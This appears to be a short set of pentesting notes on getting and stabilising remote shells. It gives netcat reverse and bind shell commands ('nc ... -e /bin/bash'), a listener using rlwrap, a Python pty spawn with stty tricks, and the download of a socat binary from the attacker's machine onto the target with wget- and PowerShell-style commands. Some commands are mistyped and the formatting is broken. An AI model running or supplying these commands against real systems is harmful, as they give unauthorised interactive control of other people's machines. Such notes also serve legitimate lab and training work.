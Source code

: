 Run on the target to connect with a shell 
`nc <LOCAL-IP> <PORT> -e /bin/bash

OR
Connecting to this  listener with netcat would result in a bind shell on the target
`nc -lvnp <PORT> -e /bin/bash`

---

### Bind Shell example

On the attacking machine
```n
c 10.10.36.67 <port>
```

On the target
```
nc -lvnp <port> -e "cmd.sh"
```
>--cmd.exe would contain code that starts a listener attached to a shell directly on the target

---

## Stabilisation

### rlwrap listener & stabilization
```
rlwrap nc -lvnp <port>
```
>starts listener on host

background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell. 

---
### Python stabilize


1. have to explicitly state python,python2,python3
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
2. (press ctrl+Z to background the shell)
3. Use `stty raw -echo` to give us access to term commands such as clear 
4. reconnect to the shell through the listener
5. Then use` export TERM=xterm




---

### soCat stabilization

use a webserver on the attacking machine inside the directory containing your socat binary 
```
~sudo python3 -m http.server 80
```
then, on the target machine, using the netcat shell to download the file.
```
get <LOCAL-IP>/socat -O /tmp/socat
```
```
~Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

---